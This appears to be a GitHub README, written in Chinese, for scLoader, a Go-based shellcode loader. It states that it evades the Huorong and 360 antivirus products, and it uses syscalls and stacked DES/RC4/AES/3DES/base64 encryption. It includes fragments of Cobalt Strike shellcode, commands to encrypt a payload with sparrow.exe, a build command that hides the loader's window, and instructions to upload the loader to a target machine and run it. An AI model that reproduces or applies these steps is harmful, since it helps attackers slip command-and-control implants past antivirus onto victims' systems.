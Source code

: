 # scLoader: shellcode 加载器

## 效果
目前测试了火绒和360，静态动态都能免杀，静态VT检测效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 已经实现的加密/编码：des,rc4,aes,3des,base64
- 在已实现的加密方式中，加密顺序可以随意指定

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52......";
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用
1、编译sparrow.go(不想编译直接`go run`也行)

找到项目中builder/sparrow.go文件，然后如图编译即可

![](https://github.com/Peithon/scLoader/blob/master/imgs/build-sparrow.png)

2、使用sparrow.exe加密shellcode

在CS中生成需要格式的shellcode，将CS生成的原始.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
#.bin文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin
#.c文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.c
```
***注意：-e参数必须使用base64编码结尾***

![](https://github.com/Peithon/scLoader/blob/master/imgs/shellcode-encode.png)

3、将加密之后的shellcode填充到`/loader/loader.go`中的shellcode变量

4、将`-e参数的值`(加密顺序)填充到`/loader/loader.go`中的encodestr变量中

![](https://github.com/Peithon/scLoader/blob/master/imgs/add-info.png)

5、编译`/loader/loader.go`文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" ./loader/loader.go
```

6、上传到目标机器，使用`loader.exe -fuck`命令加载shellcode


